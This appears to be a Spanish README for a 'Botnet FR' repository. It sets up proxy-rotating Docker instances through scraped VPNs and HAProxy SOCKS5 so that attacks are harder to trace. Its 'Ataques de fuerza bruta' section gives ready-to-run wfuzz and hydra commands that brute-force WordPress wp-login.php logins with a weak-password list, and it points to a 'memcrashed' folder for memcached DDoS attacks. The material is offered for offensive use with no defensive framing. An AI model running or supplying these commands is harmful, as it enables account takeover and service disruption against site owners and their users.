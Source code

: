 # Botnet FR


## Prerequisitos

#### DOCKER
https://docs.docker.com/install/

#### WFUZZ 
`pip install wfuzz`

#### HYDRA
`apt install hydra`

## Instrucciones
### 1. Scrap VPN
`python scrap_vpns.py`

### 2. Compilar imagen Docker
`./build.sh`

### 3. Iniciar instancias 
`./start.sh num_instancias`

### 4. Parar instancias en ejecución
`./stop.sh`


## Utilidades

### HAPROXY Status
* http://localhost:1936/haproxy?stats

### CURL mediante haproxy
* `curl --socks5 localhost:1337 ipconfig.co`

### Contenedores en ejecución
* `docker ps`

### Check alive SOCKS5 Proxy
* `echo 05010 | xxd -p -r | netcat -o /dev/stdout localhost 5001`

* `echo 050100030a676f6f676c652e636f6d0 | xxd -p -r | netcat -o /dev/stdout localhost 5001`


## Ataques de fuerza bruta

### WFUZZ
wfuzz -Z -p localhost:1337:SOCKS5 -t 10 -c -v -z file,500-worst-passwords.txt --hs "ERROR" -d 
"log=user&pwd=FUZZ" "http://*****/wp-login.php"
wfuzz --recipe bruteforce/wfuzz-recipe

### HYDRA
export HYDRA_PROXY=socks5://127.0.0.1:1337 ; hydra -I -Vv -l user -P bruteforce/500-worst-passwords.txt 
***.***.*** http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=302"

## Ataques DDOS
ver carpeta memcrashed
